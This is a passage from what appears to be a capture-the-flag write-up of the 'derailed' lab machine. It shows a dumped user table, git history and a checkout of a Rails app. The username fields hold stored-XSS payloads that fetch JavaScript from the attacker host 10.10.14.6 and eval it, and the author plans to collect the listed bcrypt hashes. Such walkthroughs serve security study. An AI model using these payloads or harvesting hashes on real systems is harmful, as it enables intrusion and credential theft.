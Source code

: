```
135|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/console').then(r => r.text()).then(t => {eval(t)});" />|$2a$12$lifVKjRQjzZZwCyYwtm.u.4La1NSI1ngDyJZy17nD0ZgmGM.Ug5lC|user|2023-07-19 22:08:35.307521|2023-07-19 22:08:35.307521
136|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/console').then(r => r.text()).then(t => {eval(t)});" />|$2a$12$EEMTawRNufRV.QTSKpiXlua7g4G5UqY17RYLLJXqekpjAmu66pFB2|user|2023-07-19 22:10:31.450989|2023-07-19 22:10:31.450989
137|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js');" />|$2a$12$LDqjlFDkH9dtnyz.vmSOre/vC6W3kXHfISd1mi3YbQCjQBnd.t3ia|user|2023-07-19 22:20:08.616202|2023-07-19 22:20:08.616202
138|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js').then(r => r.text()).then(t => {console.log(t)});" />|$2a$12$Uysq4iRq0bvaS0LpTjQ/xO7WdTlENRoXSzBC1eXrzcrlMMuuJLNR2|user|2023-07-19 22:24:40.228790|2023-07-19 22:24:40.228790
139|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js').then(r => r.text()).then(t => {eval(t)});" />|$2a$12$F3tZMI3INzmBIfbmlHEXQOQ7IBlE8Qb9TjkWOzVZffI81WGuQAYzC|user|2023-07-19 22:36:30.880049|2023-07-19 22:36:30.880049

```

I’ll grab those two hashes.

There’s also a Git repo in the `rails-app` directory:

```

rails@derailed:/var/www/rails-app$ git log
commit 5ef649cc9b81893b070c607bdca5e6ed4370b914 (HEAD -> master)
Author: gituser <gituser@local>
Date:   Sat May 28 15:01:14 2022 +0200

    init

commit 61995bf40dcb332b8979adc32152d73e5546e40c
Author: gituser <gituser@local>
Date:   Fri May 27 21:06:07 2022 +0200

    init

commit 15df0becc4d8fc989bda8c154637d183258d3af0
Author: gituser <gituser@local>
Date:   Thu May 19 21:41:04 2022 +0200

    init

```

In the first two commits, there’s a file `db/seeds.rb`. In `15df0bec` it’s just the default:

```

rails@derailed:/var/www/rails-app$ git checkout 15df0becc4d8fc989bda8c154637d183258d3af0 -f
...[snip]...
HEAD is now at 15df0be init
rails@derailed:/var/www/rails-app$ ls db/
development.sqlite3  migrate  schema.rb  seeds.rb
rails@derailed:/var/www/rails-app$ cat db/seeds.rb 
# This file should contain all the record creation needed to seed the database with its default values.
# The data can then be loaded with the bin/rails db:seed command (or created alongside the database with db:setup).
#
# Examples:
#
#   movies = Movie.create([{ name: 'Star Wars' }, { name: 'Lord of the Rings' }])
#   Character.create(name: 'Luke', movie: movies.first)

```
